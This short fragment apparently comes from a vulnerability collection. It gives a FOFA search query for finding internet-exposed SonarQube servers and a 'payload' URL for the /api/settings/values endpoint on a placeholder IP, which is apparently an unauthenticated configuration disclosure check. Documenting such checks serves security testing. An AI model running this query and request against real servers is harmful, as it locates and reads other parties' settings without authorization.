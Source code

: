 FOFA
----

    app="sonarQube-代码管理"

Payload
-------

    http://xxx.xxx.xxx.xxx/api/settings/values